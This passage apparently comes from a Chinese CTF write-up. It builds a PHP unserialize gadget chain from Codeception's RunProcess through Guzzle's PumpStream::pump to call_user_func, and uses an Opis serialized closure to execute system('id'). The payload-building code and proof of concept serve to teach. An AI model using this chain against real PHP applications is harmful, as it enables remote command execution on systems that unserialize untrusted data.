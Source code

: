 ```
            $this-&gt;processes[]=new DefaultGenerator(new AppendStream());
            $this-&gt;output=new DefaultGenerator('whatever');
        `}`
    `}`
`}`

namespace `{`
    use Codeception\Extension\RunProcess;
    echo base64_encode(serialize(new RunProcess()));
`}`
```

最后触发的是PumpStream::pump里的`call_user_func($this-&gt;source, $length);`

```
&lt;?php
class PumpStream
`{`
    ...
    private function pump($length)
    `{`
        var_dump("PumpStream::pump",$this,$length);
        if ($this-&gt;source) `{`
            do `{`
                $data = call_user_func($this-&gt;source, $length);
                if ($data === false || $data === null) `{`
                    $this-&gt;source = null;
                    return;
                `}`
                $this-&gt;buffer-&gt;write($data);
                $length -= strlen($data);
            `}` while ($length &gt; 0);
        `}`
    `}`
`}`
```

看起来很美好，然而有个小问题，我们没法控制$length,只能控制$this-&gt;source，这就导致了我们能使用的函数受限，如何解决这一问题呢，这里就用到了我们之前提到的Closure，在题目中引入了这一类库，那么我们可以让$this-&gt;source为一个函数闭包，一个简化的示意代码如下

```
&lt;?php
include("closure/autoload.php");
&lt;?php
class Test`{`
    public $source;
`}`

$func = function()`{`
    $cmd = 'id';
    system($cmd);
`}`;


$raw = \Opis\Closure\serialize($func);

$t = new Test;
$t-&gt;source = unserialize($raw);

$exp = serialize($t);

$o = unserialize($exp);

call_user_func($o-&gt;source,9);
```